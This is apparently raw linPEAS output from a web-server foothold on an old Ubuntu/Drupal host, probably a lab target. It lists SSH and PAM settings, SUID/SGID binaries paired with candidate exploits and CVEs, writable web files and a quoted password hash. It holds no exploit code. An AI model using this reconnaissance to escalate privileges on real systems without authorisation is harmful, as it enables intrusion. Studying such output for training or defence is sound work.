/etc/ssl/certs/Baltimore_CyberTrust_Root.pem
/etc/ssl/certs/Buypass_Class_2_CA_1.pem
/etc/ssl/certs/Buypass_Class_2_Root_CA.pem
/etc/ssl/certs/Buypass_Class_3_Root_CA.pem
/etc/ssl/certs/CA_Disig.pem
16121PSTORAGE_CERTSBIN

══╣ Some home ssh config file was found
/usr/share/doc/openssh-client/examples/sshd_config                                                                                                                                                                                                 
AuthorizedKeysFile      .ssh/authorized_keys
UsePrivilegeSeparation sandbox          # Default for new installations.
Subsystem       sftp    /usr/libexec/sftp-server

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow                                                                                                                                                                                                                                   


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials no

╔══════════╣ Analyzing PAM Auth Files (limit 70)
drwxr-xr-x 2 root root 4096 Apr 19  2018 /etc/pam.d                                                                                                                                                                                                
-rw-r--r-- 1 root root 2139 May  2  2014 /etc/pam.d/sshd
account    required     pam_nologin.so
session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so close
session    required     pam_loginuid.so
session    optional     pam_keyinit.so force revoke
session    optional     pam_motd.so  motd=/run/motd.dynamic noupdate
session    optional     pam_motd.so # [1]
session    optional     pam_mail.so standard noenv # [1]
session    required     pam_limits.so
session    required     pam_env.so # [1]
session    required     pam_env.so user_readenv=1 envfile=/etc/default/locale
session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so open


╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions                                                                                                                                                             
tmux 1.8                                                                                                                                                                                                                                           


/tmp/tmux-33
╔══════════╣ Analyzing Keyring Files (limit 70)
drwxr-xr-x 2 root root 4096 Apr 19  2018 /usr/share/keyrings                                                                                                                                                                                       
drwxr-xr-x 2 root root 4096 Apr 19  2018 /var/lib/apt/keyrings


╔══════════╣ Analyzing Backup Manager Files (limit 70)
                                                                                                                                                                                                                                                   
-rwxr-xr-x 1 www-data www-data 270 Apr 19  2018 /var/www/html/modules/simpletest/tests/upgrade/drupal-6.user-no-password-token.database.php
-rwxr-xr-x 1 www-data www-data 1114 Apr 19  2018 /var/www/html/modules/simpletest/tests/upgrade/drupal-6.user-password-token.database.php
  'pass',
  'pass' => '$S$DAK00p3Dkojkf4O/UizYxenguXnjv',

╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd                                                                                                                                                                                                                     
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ Analyzing PGP-GPG Files (limit 70)
/usr/bin/gpg                                                                                                                                                                                                                                       
gpg Not Found
netpgpkeys Not Found                                                                                                                                                                                                                               
netpgp Not Found                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                   
-rw-r--r-- 1 root root 12335 Aug  3  2016 /etc/apt/trusted.gpg
-rw-r--r-- 1 root root 1724 May 18  2016 /usr/share/apt/ubuntu-archive.gpg
-rw-r--r-- 1 root root 12335 May 18  2012 /usr/share/keyrings/ubuntu-archive-keyring.gpg
-rw-r--r-- 1 root root 0 May 18  2012 /usr/share/keyrings/ubuntu-archive-removed-keys.gpg
-rw-r--r-- 1 root root 1227 May 18  2012 /usr/share/keyrings/ubuntu-master-keyring.gpg
-rw-r--r-- 1 root root 12335 Aug  3  2016 /var/lib/apt/keyrings/ubuntu-archive-keyring.gpg
-rw-r--r-- 1 root root 933 May  8  2014 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_trusty_Release.gpg
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v1.4.11 (GNU/Linux)
iEYEABEKAAYFAlNrkrEACgkQQJdur0N9BbV7RgCfbZGjC7ejdU5fMW6Kbk6bRQcS
G2sAn1h7znlqgxolQOhYVAnsfmu96aTbiQIcBAABCgAGBQJTa5KxAAoJEDtP5qzA
sh8yat4QALTR1k1DKijcCu9NHWm0p5iz6+cFOmUnYS8ewjhS3Oy5mk9WjXLTpOID
BBykbsXnNIEpx4nvPhwX2jb/8XJNIT5pyhHDD7ydbQsDsQnhaah1gBwd5ZP3gwpF
9IGJ15V4737rqeifYNKohn8//4GQsoIuhzyMOqIq8lIpOJyKzWvJm9ToW7kurF1d
yQvB2rdXgOLUgXnpzsLu3Xw/p0bY+OUkdTxbfg+UxOIvwI1DYOPrTq/vPunMkA0C
QuXv7yTdYiWWoV3IUqzF5iwY0nJAcfH6bBmyXXgr9WY9QXSw+CUjMfTI3EPCG8Rw
8Z9z7LJ8zeH7DucaDkSVmPUE8uKPspc7CHuZ5b09O435TdbiargNAXwRNKKlEXcr
1bQ2CZfve5jxKv3g7xEk4C/LpNMd/0w7DsqIuw6lRwoc4vNqdPlQMjywnHFNYTDl
s5Tilg2T2pSE9SRRhLQtGAVP2VU5AD/WJfAUDHM5zLm9avZKsOphiTuXDJkaZxr7
eMn1kQyzCh30ac9zJukh8PfEREY/BT8JFC7qWWUZ2zeevsOQZJ0WHL/lm6TZRsgX
84qD7Z2UrTClnTNd6CUKHm6ispT9uC/BTFZ7efrw8mTPJotBNOpPNgmOVXFKsuoh
SyHY769UhUN2MeCGjsLjee5jRg2moS421UmBZbeRgicH92BUaWzL
=7r4e
-----END PGP SIGNATURE-----


╔══════════╣ Analyzing Cache Vi Files (limit 70)
                                                                                                                                                                                                                                                   
-rw------- 1 root root 577 Apr 19  2018 /home/tiago/.viminfo


╔══════════╣ Analyzing Postfix Files (limit 70)
-rw-r--r-- 1 root root 694 May 11  2016 /usr/share/bash-completion/completions/postfix                                                                                                                                                             


╔══════════╣ Analyzing Windows Files (limit 70)
                                                                                                                                                                                                                                                   


-rw-r--r-- 1 root root 3505 Feb 19  2014 /etc/mysql/my.cnf


-rwxr-xr-x 1 www-data www-data 2200 Apr 19  2018 /var/www/html/web.config


╔══════════╣ Analyzing Other Interesting Files (limit 70)
-rw-r--r-- 1 root root 3637 Apr  8  2014 /etc/skel/.bashrc                                                                                                                                                                                         
-rw-r--r-- 1 tiago tiago 3637 Apr 19  2018 /home/tiago/.bashrc


-rw-r--r-- 1 root root 675 Apr  8  2014 /etc/skel/.profile
-rw-r--r-- 1 tiago tiago 675 Apr 19  2018 /home/tiago/.profile


                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                                 
                      ╚════════════════════════════════════╝                                                                                                                                                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                                   
-rwsr-xr-x 1 root root 39K May  7  2014 /bin/ping                                                                                                                                                                                                  
-rwsr-xr-x 1 root root 43K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30K May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 87K Sep  2  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 35K Jan 26  2016 /bin/su
-rwsr-xr-x 1 root root 67K Sep  2  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 36K Jan 26  2016 /usr/bin/chsh
-rwsr-xr-x 1 root root 45K Jan 26  2016 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 154K Aug 27  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 18K May  7  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 44K Jan 26  2016 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 31K Jan 26  2016 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-sr-x 1 daemon daemon 46K Oct 21  2013 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 18K Nov 24  2015 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 72K Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 65K Jan 26  2016 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 5.4K Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 9.6K Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 327K Nov 25  2014 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 482K May  5  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 316K Apr 21  2015 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-sr-x 1 libuuid libuuid 18K Sep  2  2015 /usr/sbin/uuidd

╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                                   
-rwxr-sr-x 1 root shadow 53K Jan 26  2016 /usr/bin/chage                                                                                                                                                                                           
-rwxr-sr-x 1 root mail 14K Dec  7  2013 /usr/bin/dotlockfile
-rwxr-sr-x 1 root tty 9.6K Jun  4  2013 /usr/bin/bsd-write
-rwxr-sr-x 3 root mail 9.5K Dec  3  2012 /usr/bin/mail-lock
-rwxr-sr-x 3 root mail 9.5K Dec  3  2012 /usr/bin/mail-touchlock
-rwxr-sr-x 1 root tty 18K Sep  2  2015 /usr/bin/wall
-rwsr-sr-x 1 daemon daemon 46K Oct 21  2013 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 1 root utmp 398K Nov  7  2013 /usr/bin/screen  --->  GNU_Screen_4.5.0
-rwxr-sr-x 1 root shadow 18K Jan 26  2016 /usr/bin/expiry
-rwxr-sr-x 1 root crontab 35K Feb  9  2013 /usr/bin/crontab
-rwxr-sr-x 1 root ssh 322K May  5  2016 /usr/bin/ssh-agent
-rwxr-sr-x 3 root mail 9.5K Dec  3  2012 /usr/bin/mail-unlock
-rwxr-sr-x 1 root mlocate 34K Jun 20  2013 /usr/bin/mlocate
-rwsr-sr-x 1 libuuid libuuid 18K Sep  2  2015 /usr/sbin/uuidd
-rwxr-sr-x 1 root shadow 30K Mar 16  2016 /sbin/unix_chkpwd

╔══════════╣ Checking misconfigurations of ld.so
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld.so                                                                                                                                                                           
/etc/ld.so.conf                                                                                                                                                                                                                                    
Content of /etc/ld.so.conf:                                                                                                                                                                                                                        
include /etc/ld.so.conf.d/*.conf

/etc/ld.so.conf.d
  /etc/ld.so.conf.d/i686-linux-gnu.conf                                                                                                                                                                                                            
  - /lib/i386-linux-gnu                                                                                                                                                                                                                            
  - /usr/lib/i386-linux-gnu
  - /lib/i686-linux-gnu
  - /usr/lib/i686-linux-gnu
  /etc/ld.so.conf.d/libc.conf
  - /usr/local/lib                                                                                                                                                                                                                                 

/etc/ld.so.preload
╔══════════╣ Capabilities                                                                                                                                                                                                                          
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities                                                                                                                                                                    
══╣ Current shell capabilities                                                                                                                                                                                                                     
CapInh:  0x0000000000000000=                                                                                                                                                                                                                       
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
CapAmb:  0x0000000000000000=

══╣ Parent process capabilities
CapInh:  0x0000000000000000=                                                                                                                                                                                                                       
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
CapAmb:  0x0000000000000000=


Files with capabilities (limited to 50):

╔══════════╣ Users with capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities                                                                                                                                                                    
                                                                                                                                                                                                                                                   
╔══════════╣ AppArmor binary profiles
-rw-r--r-- 1 root root 2489 Apr 15  2016 sbin.dhclient                                                                                                                                                                                             
-rw-r--r-- 1 root root 1048 Jul 21  2016 usr.sbin.mysqld
-rw-r--r-- 1 root root 1394 Apr 25  2015 usr.sbin.rsyslogd
-rw-r--r-- 1 root root 1418 Jan 13  2014 usr.sbin.tcpdump

╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls                                                                                                                                                                            
files with acls in searched folders Not Found                                                                                                                                                                                                      
                                                                                                                                                                                                                                                   
╔══════════╣ Files (scripts) in /etc/profile.d/
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#profiles-files                                                                                                                                                                  
total 16                                                                                                                                                                                                                                           
drwxr-xr-x  2 root root 4096 Apr 19  2018 .
drwxr-xr-x 93 root root 4096 May 23 08:23 ..
-rw-r--r--  1 root root 1559 Jul 29  2014 Z97-byobu.sh
-rw-r--r--  1 root root  663 May 11  2016 bash_completion.sh

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d                                                                                                                                                    
                                                                                                                                                                                                                                                   
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No                                                                                                                                                                                                       
═╣ Credentials in fstab/mtab? ........... No                                                                                                                                                                                                       
═╣ Can I read shadow files? ............. No                                                                                                                                                                                                       
═╣ Can I read shadow plists? ............ No                                                                                                                                                                                                       
═╣ Can I write shadow plists? ........... No                                                                                                                                                                                                       
═╣ Can I read opasswd file? ............. No                                                                                                                                                                                                       
═╣ Can I write in network-scripts? ...... No                                                                                                                                                                                                       
═╣ Can I read root folder? .............. No                                                                                                                                                                                                       
                                                                                                                                                                                                                                                   
╔══════════╣ Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                                                                                             
/home/tiago/.viminfo
/root/
/var/www

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
                                                                                                                                                                                                                                                   
╔══════════╣ Readable files belonging to root and readable by me but not world readable
                                                                                                                                                                                                                                                   
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                                                                  
/run/lock                                                                                                                                                                                                                                          
/run/lock/apache2
/run/shm
/tmp
/tmp/linpeas.sh
/tmp/tmux-33
/var/cache/apache2/mod_cache_disk
/var/crash
/var/crash/.lock
/var/crash/_usr_sbin_aa-status.33.crash
/var/lib/php5
/var/tmp
/var/www/html
/var/www/html/CHANGELOG.txt
/var/www/html/COPYRIGHT.txt
/var/www/html/INSTALL.mysql.txt
/var/www/html/INSTALL.pgsql.txt
/var/www/html/INSTALL.sqlite.txt
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/includes/actions.inc
/var/www/html/includes/ajax.inc
/var/www/html/includes/archiver.inc
/var/www/html/includes/authorize.inc
/var/www/html/includes/batch.inc
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/includes/database/database.inc
/var/www/html/includes/database/log.inc
/var/www/html/includes/database/mysql
/var/www/html/includes/database/mysql/database.inc
/var/www/html/includes/database/mysql/install.inc
/var/www/html/includes/database/mysql/query.inc
/var/www/html/includes/database/mysql/schema.inc
/var/www/html/includes/database/pgsql
/var/www/html/includes/database/pgsql/database.inc
/var/www/html/includes/database/pgsql/install.inc
/var/www/html/includes/database/pgsql/query.inc
/var/www/html/includes/database/pgsql/schema.inc
/var/www/html/includes/database/pgsql/select.inc
/var/www/html/includes/database/prefetch.inc
/var/www/html/includes/database/query.inc
/var/www/html/includes/database/schema.inc
/var/www/html/includes/database/select.inc
/var/www/html/includes/database/sqlite
/var/www/html/includes/database/sqlite/database.inc
/var/www/html/includes/database/sqlite/install.inc
/var/www/html/includes/database/sqlite/query.inc
/var/www/html/includes/database/sqlite/schema.inc
/var/www/html/includes/database/sqlite/select.inc
/var/www/html/includes/date.inc
/var/www/html/includes/entity.inc
/var/www/html/includes/errors.inc
/var/www/html/includes/file.inc
/var/www/html/includes/file.mimetypes.inc
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/includes/filetransfer/filetransfer.inc
/var/www/html/includes/filetransfer/ftp.inc
/var/www/html/includes/filetransfer/local.inc
/var/www/html/includes/filetransfer/ssh.inc
/var/www/html/includes/form.inc
/var/www/html/includes/graph.inc
/var/www/html/includes/image.inc
/var/www/html/includes/install.core.inc
/var/www/html/includes/install.inc
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/index.php
/var/www/html/install.php
/var/www/html/misc
/var/www/html/misc/ajax.js
/var/www/html/misc/authorize.js
/var/www/html/misc/autocomplete.js
/var/www/html/misc/batch.js
/var/www/html/misc/collapse.js
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/misc/farbtastic/farbtastic.css
/var/www/html/misc/farbtastic/farbtastic.js
/var/www/html/misc/favicon.ico
/var/www/html/misc/form.js
/var/www/html/misc/jquery.ba-bbq.js
/var/www/html/misc/jquery.cookie.js
/var/www/html/misc/jquery.form.js
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/misc/ui/images
/var/www/html/misc/ui/jquery.effects.blind.min.js
/var/www/html/misc/ui/jquery.effects.bounce.min.js
/var/www/html/misc/ui/jquery.effects.clip.min.js
/var/www/html/misc/ui/jquery.effects.core.min.js
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/misc/vertical-tabs-rtl.css
/var/www/html/misc/vertical-tabs.css
/var/www/html/misc/vertical-tabs.js
/var/www/html/modules
/var/www/html/modules/README.txt
/var/www/html/modules/aggregator
/var/www/html/modules/aggregator/aggregator-feed-source.tpl.php
/var/www/html/modules/aggregator/aggregator-item.tpl.php
/var/www/html/modules/aggregator/aggregator-rtl.css
/var/www/html/modules/aggregator/aggregator-summary-item.tpl.php
/var/www/html/modules/aggregator/aggregator-summary-items.tpl.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/aggregator/tests/aggregator_test.info
/var/www/html/modules/aggregator/tests/aggregator_test.module
/var/www/html/modules/aggregator/tests/aggregator_test_atom.xml
/var/www/html/modules/aggregator/tests/aggregator_test_rss091.xml
/var/www/html/modules/aggregator/tests/aggregator_test_title_entities.xml
/var/www/html/modules/block
/var/www/html/modules/block/block-admin-display-form.tpl.php
/var/www/html/modules/block/block.admin.inc
/var/www/html/modules/block/block.api.php
/var/www/html/modules/block/block.css
/var/www/html/modules/block/block.info
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/block/tests/block_test.info
/var/www/html/modules/block/tests/block_test.module
/var/www/html/modules/block/tests/themes
/var/www/html/modules/block/tests/themes/block_test_theme
/var/www/html/modules/block/tests/themes/block_test_theme/block_test_theme.info
/var/www/html/modules/block/tests/themes/block_test_theme/page.tpl.php
/var/www/html/modules/blog
/var/www/html/modules/blog/blog.info
/var/www/html/modules/blog/blog.install
/var/www/html/modules/blog/blog.module
/var/www/html/modules/blog/blog.pages.inc
/var/www/html/modules/blog/blog.test
/var/www/html/modules/book
/var/www/html/modules/book/book-all-books-block.tpl.php
/var/www/html/modules/book/book-export-html.tpl.php
/var/www/html/modules/book/book-navigation.tpl.php
/var/www/html/modules/book/book-node-export-html.tpl.php
/var/www/html/modules/book/book-rtl.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/color
/var/www/html/modules/color/color-rtl.css
/var/www/html/modules/color/color.css
/var/www/html/modules/color/color.info
/var/www/html/modules/color/color.install
/var/www/html/modules/color/color.js
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/comment
/var/www/html/modules/comment/comment-node-form.js
/var/www/html/modules/comment/comment-rtl.css
/var/www/html/modules/comment/comment-wrapper.tpl.php
/var/www/html/modules/comment/comment.admin.inc
/var/www/html/modules/comment/comment.api.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/contact
/var/www/html/modules/contact/contact.admin.inc
/var/www/html/modules/contact/contact.info
/var/www/html/modules/contact/contact.install
/var/www/html/modules/contact/contact.module
/var/www/html/modules/contact/contact.pages.inc
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/contextual
/var/www/html/modules/contextual/contextual-rtl.css
/var/www/html/modules/contextual/contextual.api.php
/var/www/html/modules/contextual/contextual.css
/var/www/html/modules/contextual/contextual.info
/var/www/html/modules/contextual/contextual.js
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/dashboard
/var/www/html/modules/dashboard/dashboard-rtl.css
/var/www/html/modules/dashboard/dashboard.api.php
/var/www/html/modules/dashboard/dashboard.css
/var/www/html/modules/dashboard/dashboard.info
/var/www/html/modules/dashboard/dashboard.install
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/dblog
/var/www/html/modules/dblog/dblog-rtl.css
/var/www/html/modules/dblog/dblog.admin.inc
/var/www/html/modules/dblog/dblog.css
/var/www/html/modules/dblog/dblog.info
/var/www/html/modules/dblog/dblog.install
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/field
/var/www/html/modules/field/field.api.php
/var/www/html/modules/field/field.attach.inc
/var/www/html/modules/field/field.crud.inc
/var/www/html/modules/field/field.default.inc
/var/www/html/modules/field/field.form.inc
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/field/modules/field_sql_storage
/var/www/html/modules/field/modules/field_sql_storage/field_sql_storage.info
/var/www/html/modules/field/modules/field_sql_storage/field_sql_storage.install
/var/www/html/modules/field/modules/field_sql_storage/field_sql_storage.module
/var/www/html/modules/field/modules/field_sql_storage/field_sql_storage.test
/var/www/html/modules/field/modules/list
/var/www/html/modules/field/modules/list/list.info
/var/www/html/modules/field/modules/list/list.install
/var/www/html/modules/field/modules/list/list.module
/var/www/html/modules/field/modules/list/tests
/var/www/html/modules/field/modules/list/tests/list.test
/var/www/html/modules/field/modules/list/tests/list_test.info
/var/www/html/modules/field/modules/list/tests/list_test.module
/var/www/html/modules/field/modules/number
/var/www/html/modules/field/modules/number/number.info
/var/www/html/modules/field/modules/number/number.install
/var/www/html/modules/field/modules/number/number.module
/var/www/html/modules/field/modules/number/number.test
/var/www/html/modules/field/modules/options
/var/www/html/modules/field/modules/options/options.api.php
/var/www/html/modules/field/modules/options/options.info
/var/www/html/modules/field/modules/options/options.module
/var/www/html/modules/field/modules/options/options.test
/var/www/html/modules/field/modules/text
/var/www/html/modules/field/modules/text/text.info
/var/www/html/modules/field/modules/text/text.install
/var/www/html/modules/field/modules/text/text.js
/var/www/html/modules/field/modules/text/text.module
/var/www/html/modules/field/modules/text/text.test
/var/www/html/modules/field/tests
/var/www/html/modules/field/tests/field.test
/var/www/html/modules/field/tests/field_test.entity.inc
/var/www/html/modules/field/tests/field_test.field.inc
/var/www/html/modules/field/tests/field_test.info
/var/www/html/modules/field/tests/field_test.install
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/field/theme
/var/www/html/modules/field/theme/field-rtl.css
/var/www/html/modules/field/theme/field.css
/var/www/html/modules/field/theme/field.tpl.php
/var/www/html/modules/field_ui
/var/www/html/modules/field_ui/field_ui-rtl.css
/var/www/html/modules/field_ui/field_ui.admin.inc
/var/www/html/modules/field_ui/field_ui.api.php
/var/www/html/modules/field_ui/field_ui.css
/var/www/html/modules/field_ui/field_ui.info
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/file
/var/www/html/modules/file/file.api.php
/var/www/html/modules/file/file.css
/var/www/html/modules/file/file.field.inc
/var/www/html/modules/file/file.info
/var/www/html/modules/file/file.install
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/file/tests/file.test
/var/www/html/modules/file/tests/file_module_test.info
/var/www/html/modules/file/tests/file_module_test.module
/var/www/html/modules/filter
/var/www/html/modules/filter/filter.admin.inc
/var/www/html/modules/filter/filter.admin.js
/var/www/html/modules/filter/filter.api.php
/var/www/html/modules/filter/filter.css
/var/www/html/modules/filter/filter.info
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/filter/tests/filter.url-input.txt
/var/www/html/modules/filter/tests/filter.url-output.txt
/var/www/html/modules/forum
/var/www/html/modules/forum/forum-icon.tpl.php
/var/www/html/modules/forum/forum-list.tpl.php
/var/www/html/modules/forum/forum-rtl.css
/var/www/html/modules/forum/forum-submitted.tpl.php
/var/www/html/modules/forum/forum-topic-list.tpl.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/help
/var/www/html/modules/help/help-rtl.css
/var/www/html/modules/help/help.admin.inc
/var/www/html/modules/help/help.css
/var/www/html/modules/help/help.info
/var/www/html/modules/help/help.module
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/image
/var/www/html/modules/image/image-rtl.css
/var/www/html/modules/image/image.admin.css
/var/www/html/modules/image/image.admin.inc
/var/www/html/modules/image/image.api.php
/var/www/html/modules/image/image.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/image/tests/image_module_test.info
/var/www/html/modules/image/tests/image_module_test.module
/var/www/html/modules/locale
/var/www/html/modules/locale/locale-rtl.css
/var/www/html/modules/locale/locale.admin.inc
/var/www/html/modules/locale/locale.api.php
/var/www/html/modules/locale/locale.css
/var/www/html/modules/locale/locale.datepicker.js
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/locale/tests/locale_test.info
/var/www/html/modules/locale/tests/locale_test.js
/var/www/html/modules/locale/tests/locale_test.module
/var/www/html/modules/locale/tests/translations
/var/www/html/modules/locale/tests/translations/test.xx.po
/var/www/html/modules/menu
/var/www/html/modules/menu/menu.admin.inc
/var/www/html/modules/menu/menu.admin.js
/var/www/html/modules/menu/menu.api.php
/var/www/html/modules/menu/menu.css
/var/www/html/modules/menu/menu.info
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/node
/var/www/html/modules/node/content_types.inc
/var/www/html/modules/node/content_types.js
/var/www/html/modules/node/node.admin.inc
/var/www/html/modules/node/node.api.php
/var/www/html/modules/node/node.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/node/tests/node_access_test.info
/var/www/html/modules/node/tests/node_access_test.install
/var/www/html/modules/node/tests/node_access_test.module
/var/www/html/modules/node/tests/node_test.info
/var/www/html/modules/node/tests/node_test.module
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/openid
/var/www/html/modules/openid/openid-rtl.css
/var/www/html/modules/openid/openid.api.php
/var/www/html/modules/openid/openid.css
/var/www/html/modules/openid/openid.inc
/var/www/html/modules/openid/openid.info
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/openid/tests/openid_test.info
/var/www/html/modules/openid/tests/openid_test.install
/var/www/html/modules/openid/tests/openid_test.module
/var/www/html/modules/overlay
/var/www/html/modules/overlay/images
/var/www/html/modules/overlay/overlay-child-rtl.css
/var/www/html/modules/overlay/overlay-child.css
/var/www/html/modules/overlay/overlay-child.js
/var/www/html/modules/overlay/overlay-parent.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/path
/var/www/html/modules/path/path.admin.inc
/var/www/html/modules/path/path.api.php
/var/www/html/modules/path/path.info
/var/www/html/modules/path/path.js
/var/www/html/modules/path/path.module
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/php
/var/www/html/modules/php/php.info
/var/www/html/modules/php/php.install
/var/www/html/modules/php/php.module
/var/www/html/modules/php/php.test
/var/www/html/modules/poll
/var/www/html/modules/poll/poll-bar--block.tpl.php
/var/www/html/modules/poll/poll-bar.tpl.php
/var/www/html/modules/poll/poll-results--block.tpl.php
/var/www/html/modules/poll/poll-results.tpl.php
/var/www/html/modules/poll/poll-rtl.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/profile
/var/www/html/modules/profile/profile-block.tpl.php
/var/www/html/modules/profile/profile-listing.tpl.php
/var/www/html/modules/profile/profile-wrapper.tpl.php
/var/www/html/modules/profile/profile.admin.inc
/var/www/html/modules/profile/profile.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/rdf
/var/www/html/modules/rdf/rdf.api.php
/var/www/html/modules/rdf/rdf.info
/var/www/html/modules/rdf/rdf.install
/var/www/html/modules/rdf/rdf.module
/var/www/html/modules/rdf/rdf.test
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/rdf/tests/rdf_test.info
/var/www/html/modules/rdf/tests/rdf_test.install
/var/www/html/modules/rdf/tests/rdf_test.module
/var/www/html/modules/search
/var/www/html/modules/search/search-block-form.tpl.php
